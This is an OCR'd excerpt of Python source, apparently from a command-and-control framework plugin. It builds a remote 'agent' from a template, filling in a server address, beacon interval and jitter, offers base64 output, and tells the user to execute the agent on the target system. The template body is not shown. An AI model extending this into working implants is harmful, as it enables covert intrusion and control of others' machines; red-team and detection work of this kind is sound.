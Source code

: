 ```python
                "files": List of file paths generated (if any)
                "instructions": User instructions (if any)
                "summary": Short summary of what was generated
        """
        # Extract configuration options
        beacon_period = config.get("beacon_period", 5)
        jitter_percentage = config.get("jitter_percentage", 20)
        random_sleep_enabled = config.get("random_sleep_enabled", False)
        output_format = config.get("format", "ps1")
        
        # Extract campaign settings
        server_address = campaign_settings.get("server_address", "")
        rotation_info = campaign_settings.get("rotation_info", None)
        
        # Generate the agent code
        agent_code = cls._generate_agent_code(config, campaign_settings)
        
        # Process output format
        if output_format == "base64":
            encoded_code = cls._encode_to_base64(agent_code)
            result_code = encoded_code
        else:
            result_code = agent_code
        
        # Return the result
        return {
            "code": result_code,
            "files": [],  # List of file paths if multiple files were generated
            "instructions": "Execute this agent on the target system",
            "summary": f"Custom agent for {server_address} with {beacon_period}s beacon interval"
        }
    
    @classmethod
    def _generate_agent_code(cls, config: Dict[str, Any], campaign_settings: Dict[str, Any]) -> str:
        """
        Generate agent code based on configuration
        
        Args:
            config: Plugin-specific configuration
            campaign_settings: Campaign-wide settings
            
        Returns:
            Generated agent code
        """
        # Get template
        template = cls._get_agent_template()
        
        # Extract settings
        server_address = campaign_settings.get("server_address", "")
        beacon_period = config.get("beacon_period", 5)
        jitter_percentage = config.get("jitter_percentage", 20)
        
        # Fill in template placeholders
        agent_code = template.replace("{{SERVER_ADDRESS}}", server_address)
        agent_code = agent_code.replace("{{BEACON_PERIOD}}", str(beacon_period))
        agent_code = agent_code.replace("{{JITTER_PERCENTAGE}}", str(jitter_percentage))
        
        return agent_code
    
    @classmethod
    def _get_agent_template(cls) -> str:
        """Return the embedded agent template"""
```